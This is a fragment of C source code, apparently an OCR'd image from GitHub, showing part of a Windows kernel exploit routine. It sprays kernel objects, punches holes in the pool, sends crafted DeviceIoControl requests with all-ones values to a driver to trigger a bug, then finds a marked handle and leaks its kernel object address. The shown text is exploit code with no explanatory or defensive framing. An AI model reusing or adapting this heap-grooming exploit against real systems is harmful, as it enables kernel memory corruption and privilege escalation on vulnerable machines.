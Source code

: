     LARGE_INTEGER InputBuffer;
    DWORD OutBuffer;
    DWORD err;

    *pObject = NULL;
    *pHandle = NULL;

    r = SprayObjects();
    if (r == FALSE)
    {
        printf("SprayObjects failed\n");
        goto Exit;
    }
    r = CreateHoles();
    if (r == FALSE)
    {
        printf("CreateHoles failed\n");
        goto Exit;
    }

    InputBuffer.LowPart = 0xFFFFFFFF;
    InputBuffer.HighPart = 0xFFFFFFFF;
    r = DeviceIoControl(hDevice, 0x85020004, &InputBuffer, 8, &OutBuffer, 4, &ReturnedLength, NULL);
    if (r == FALSE)
    {
        err = GetLastError();
        printf("DeviceIoControl 'on' failed: %d\n", err);
    }
    else
    {
        *pHandle = LookupMarkedHandle();
        if (*pHandle == NULL)
        {
            printf("LookupMarkedHandle failed\n");
        }
        else
        {
            *pObject = GetObjectByHandle(*pHandle);
            if (*pObject == NULL)
            {
                printf("GetObjectByHandle for handle: %p failed\n", *pHandle);
                *pHandle = NULL;
            }
            else
            {
                printf("Object: %p, keeping handle %p\n", *pObject, *pHandle);
            }
        }

        InputBuffer.LowPart = 0x0;
        InputBuffer.HighPart = 0x0;
        r = DeviceIoControl(hDevice, 0x85020004, &InputBuffer, 8, &OutBuffer, 4, &ReturnedLength, 0);
        if (r == FALSE)
        {
            err = GetLastError();
            printf("DeviceIoControl 'off' failed: %d\n", err);
        }
    }

    r = FreeObjects(*pHandle);
    if (r == FALSE)
    {
        printf("FreeObjects failed\n");
        goto Exit;
    }
